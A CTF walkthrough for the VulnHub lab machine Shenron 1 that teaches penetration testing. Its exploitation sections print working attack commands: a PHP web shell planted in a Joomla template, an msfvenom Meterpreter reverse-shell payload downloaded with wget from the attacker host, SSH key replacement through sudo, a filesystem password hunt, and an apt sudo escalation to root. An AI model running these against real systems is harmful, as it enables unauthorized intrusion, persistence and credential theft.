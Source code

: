 ---
title: CTF Walkthrough for VulnHub Machine Shenron 1
date: 2024-09-03 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [vulnhub, writeup, shenron, machines, pentest]   
image:
  path: /assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/box-shenron1.png

## Introduction
Greetings everyone, in this walkthrough, we will talk about Shenron 1 which is the first machine of the Vulnhub Shenron series machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Machine Description
Name: Shenron 1<br>
Goal: Get two flags<br>
Difficulty: Beginner to Intermediate<br>
Operating System: Linux<br>
Download link: [Shenron-1](https://download.vulnhub.com/shenron/shenron-1.ova)<br>
### Tools used
1) Nmap<br>
2) Netcat<br>
3) ffuf
4) Metasploit Framework<br>
### Environment Set up
To ensure success as a penetration tester, staying organised is crucial. Proper organisation streamlines documentation and tracking of progress. In this workshop, we will create a directory tree to systematically manage our work, with detailed descriptions of each directory's purpose available here.
![Working Dir](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/working-dir.png)

## Reconnaissance
As in every penetration test, we need to identify our target on the network. We can do this by launching a quick host discovery scan against the network using Nmap. To perform the host verification we need to know our current subnet. We can perform these using the commands below:<br>
Current subnet identification: ```ip a```<br>
Host discovery scan: ```sudo nmap -sn 10.0.2.15/24```<br><br>
![Host Identification](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/target-dis.png)

After identifying our target on the network we need to know what services are run by our target to create different possible attack scenarios. We can start a service scan on our target using Nmap with the command below.<br> ```sudo nmap -sV -sC  10.0.2.4 -oA services-dis```<br><br>
![Service Scan](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/service-scan.png)

We can see that the target is running both an SSH and an Apache web server. Web applications are known to contain many vulnerabilities so let's browse to the web application for further analyses. Unfortunately for us, we fall on the default Apache index page.
![Wep App Index Page](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web%20app%20index%20page.png)

In a real-world scenario, the default page might be left temporarily during the setup or testing phases of the web application. So let's try to find any hidden directories in the web application. I performed the fuzzing using **ffuf**, but you can use any tool of your preference. Here’s the command I used:<br>
```ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.4/FUZZ```<br><br>
![Directory Fuzzing](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/dir-fuzzing-1.png)

The fuzzing process uncovers two interesting directories which are the *test* and *joomla*. The directory Joomla already gives us a hint that the web application may be running the well-known Joomla CMS. Let's browse these directories chronologically as they are in our results. Upon browsing to the test directory, we noticed that directory listing is enabled, which constitutes a vulnerability since it appears to expose a file containing passwords. We should document this finding in our Findings folder.
![Directory Listing](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/directory-listing.png)

Accessing the file reveals a pair of credentials for an admin user. We can keep a note of these credentials in a file.
![File Accessed](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-accessed-1.png)

Nex let's visit the second directory *joomla* uncovered during our fuzzing. We can see that our target runs the well-known Joomla CMS. Remember, we discovered credentials hidden in the comments of the password file. Let's use these credentials to log in to the Joomla administrative interface, which is typically located in the administrator directory.
*NB: By default, Joomla's administrative interface is accessed through the administrator directory.*
![Joomla Login](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/joomla-login.png)

## Exploitation
Great, we successfully logged in as the admin. Next, we move to Extensions -> Templates -> Templates where attempt to add a PHP shell to a PHP file in an unused template. Here, I chose the protostar template and added a basic PHP shell ``` system($_GET["cmd"]);``` to the error.php file.
*NB: In a real-world penetration test try to use a more complicated name for the GET parameter value such as a hash. This is because anyone can access that file hence if a common name is used, attackers may bruteforce it and also use it to establish their foothold in your client's environment.*
![Template Modification](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/template-modification.png)
After modifying the template we can now execute commands on our target by browsing to the page and specifying the command we want to run as the GET parameter's value.<br> 
```curl http://10.0.2.4/joomla/templates/protostar/error.php?cmd=id```<br><br>
![RCE Test](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/rce-test.png)

This web shell is good but to facilitate our work, we will employ Meterpreter, a sophisticated payload integrated into the Metasploit Framework. To use a meterpreter on our target we first need to craft one using the msfvenom tool from the Metasploit Framework.<br>
```msfvenom -p linux/x64/meterpreter_reverse_tcp  LHOST=10.0.2.15 LPORT=4444 -f elf > update.elf```<br><br>
![Payload Crafting](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-crafting-1.png)
After crafting the executable payload we then start a small HTTP server to transfer the payload to our target using Python3 http.server module.
![Python Server](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/python-server-1.png)

We then use wget on the target to download the payload to the /tmp directory.<br> ```wget http://10.0.2.15/update.elf -O /tmp/update.elf```<br><br>
![Download Operation](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/download-operation-1.png)
Before executing the payload, we need to configure and run a listener in Metasploit.
![Metasploit Set Up](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/metasploit-set-up.png)
After starting the listener we now give execution permission to our payload and execute it.
![Payload Execution](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-exec-1.png)
Upon going back to the listener, we can see that the listener caught a reverse shell connection from the target.
![Catching Shell](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/catching-shell-1.png)
Web applications usually contain a configuration file that stores database credentials. These credentials are used by the web application to connect to the database server. It's a good habit to search for this configuration file which is usually located in the web root directory. On this machine, the file is named web.config.txt. Reading its contents reveals the credentials for the database user.<br> *NB: The name of this file may change depending on the preference of the web administrator.*
![Web Config File](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web-root-dir.png)
![DB User Creds](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/db-creds.png)
We see that the credentials belong to the user Jenny who is also a user on the target machine. Let's try to authenticate as Jenny.<br>
*Tip: To enumerate users on the system just cat the content of the /etc/passwd file*
![User Auth](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-auth-1.png)

## Post Exploitation
At this stage in our CTF assessment, we have identified that the user is vulnerable to password reuse. Using this password, we can now check if the user has any sudo privileges.
![Sudo Right](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-1.png)

Great, the user Jenny can perform copy operations by impersonating Shenron. Since we observed an SSH service running during our service enumeration, let's use the sudo privileges to replace Shenron's SSH key. To do this, I first generate a key pair \(private, public\) on my attack host and upload the public key using the same method used above but you may decide to upload it using our powerful meterpreter.
![SSH Key Gen](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-gen-1.png)
After uploading the public key I replaced the **authorized_keys** file in Shenron's **.ssh** directory by impersonating Shenron using our sudo privileges and then afterward I used the private key to log in as Shenron.
![SSH Key Replace](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-replacement-1.png)
![SSH Login](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-login-1.png)
We successfully logged in as Shenron we can now use this new account to read the user's flag and further the enumeration process of the system.
![User Flag](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-flag.png)
Some users tend to store their passwords in specific files so, let's try to enumerate all files having the string 'password' in their names with the command below.<br> ```find / -iname *password* 2>/dev/null```.<br> We got a hit in the /var/opt directory. Reading the content of the files exposes to us what seems like Shenron's password.
![File Enum](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-enum-2.png)
We can now use that password to read Shenron's sudo privileges.
![Sudo Right](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-2.png)
We observe that this account can be used to run apt with root privilege. Let's browse to [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#sudo) to see how we can exploit this right to obtain a root shell. the command GTFOBins provides us with a way of exploiting this privilege but I chose to use the command below. <br>```sudo /usr/bin/apt update -o APT::Update::Pre-Invoke::=/bin/sh```<br><br>
![Root Access](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/root-access.png)<br>
Great, we have obtained root access to the machine, having this access means we own the machine and can do whatever we want. 

## Conclusion
Congratulations, In this walkthrough, you learned how a seemingly simple file listing vulnerability, which exposes sensitive information, can be exploited to take over a machine. We demonstrated how unauthorized access to file directories and the disclosure of sensitive files can provide critical information that attackers can use to escalate privileges and gain full control of the system. This walkthrough highlighted the importance of securing file listings and properly managing access controls to prevent such vulnerabilities from being exploited.. In a real-world assessment, the last step will be to gather our findings and draft a report for our clients. Thanks for following up on this walkthrough.
